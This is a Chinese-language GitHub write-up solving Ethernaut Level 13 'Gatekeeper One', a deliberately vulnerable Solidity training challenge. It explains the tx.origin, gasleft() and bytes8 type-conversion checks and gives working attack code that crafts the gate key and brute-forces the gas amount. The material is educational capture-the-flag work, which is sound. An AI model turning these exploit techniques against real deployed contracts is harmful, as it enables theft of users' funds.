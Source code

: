 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/13-gate1.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 13 - Gate Keeper One</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 13 - Gate Keeper One](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
    - [Modifier 1](#Modifier1)
    - [Modifier 2](#Modifier2)
    - [Modifier 3](#Modifier3)
- [解答](#解答)
- [要点](#要点)
- [参考](#参考)

## 目标

目标是通过三个 modifier 的检测
<img src="../imgs/requirements/13-gate1-requirements.webp" width="800px"/>

## 漏洞

“enter(bytes8 _gateKey)”函数中,有3个修饰符，我们需要通过这三个修饰符，才能通过关卡。让我们一个一个地看看。

### Modifier1

这里没有什么难的的，我们在之前的Telephone关卡中遇到过。我们只需要从合约中调用`enter()`函数，那么`tx.origin`将是我们自己的账户。`msg.sender`则是合约。

```javascript
 modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```

### Modifier3

```javascript
 modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }
```

`_gateKey`是`bytes8`类型，它是长度为8的固定大小字节数组。这里以_gateKey是0x12345678deadbeef为例说明:
1.uint32(uint64(_gateKey))转换后会取低位，所以变成0xdeadbeef，uint16(uint64(_gateKey))同理会变成0xbeef，uint16和uint32在比较的时候，较小的类型uint16会在左边填充0，也就是会变成0x0000beef和0xdeadbeef做比较，因此想通过第一个require只需要找一个形为0x????????0000????这种形式的值即可，其中?是任取值。
2.要求双方不相等，只需高4个字节中任有一个bit不为0即可
3.通过前面可知，uint32(uint64(_gateKey))应该是类似0x0000beef这种形式，所以只需要让最低的2个byte和tx.origin地址最低的2个byte相同即可，也就是，key的最低2个字节设置为合约地址的低2个字节。这里tx.origin就是你的的账户地址

```javascript
    bytes8 gateKey;
    uint16 origin = uint16(uint160(msg.sender)); //合约地址的低2个字节
    uint64 _gateKey = uint64(origin);  //0000????这种形式的值
    gateKey = bytes8(_gateKey | uint64(0x1000000000000000)); //0x1???????0000????
```

### Modifier2

```javascript
 modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }
```
这个修饰符要求，我们必须确保`gasleft()`是8191的倍数。你可以在remix上debug看一下，这里我们直接以暴力的循环方式，得到正确数量的gas，我们可以编写一个快速测试来找出它:

```javascript
    for (uint256 i = 0; i < 8191; i++) {
        try instance.enter{gas: 8191 * 10 + i}(gateKey) {
            //<----268
            console.log(">>>>>>>>>>>>>>>>gas:", i);
            return;
        } catch {}
    }
```

我测试得到的数量为: `268`.

## 解答

解决了所有障碍后，直接调用 `enter()` 函数就可以了.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

function attackwithoutgas() public {
    bytes8 gateKey;
    uint16 origin = uint16(uint160(msg.sender));
    uint64 _gateKey = uint64(origin);
    gateKey = bytes8(_gateKey | uint64(0x1000000000000000));
    for (uint256 i = 0; i < 8191; i++) {
        try instance.enter{gas: 8191 * 10 + i}(gateKey) {
            //<----268
            console.log(">>>>>>>>>>>>>>>>gas:", i);
            return;
        } catch {}
    }
    revert("No gas match found!");
}
```

你可以在项目的根目录执行以下命令，进行验证；

```bash
 forge test --match-contract  GatekeeperOneTest -vvvvv
```

## 要点

- Solidity中的类型转换
- 为什么 `gasleft()` 不能作为随机源

## 参考
- solidity conversions： https://www.tutorialspoint.com/solidity/solidity_conversions.htm

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
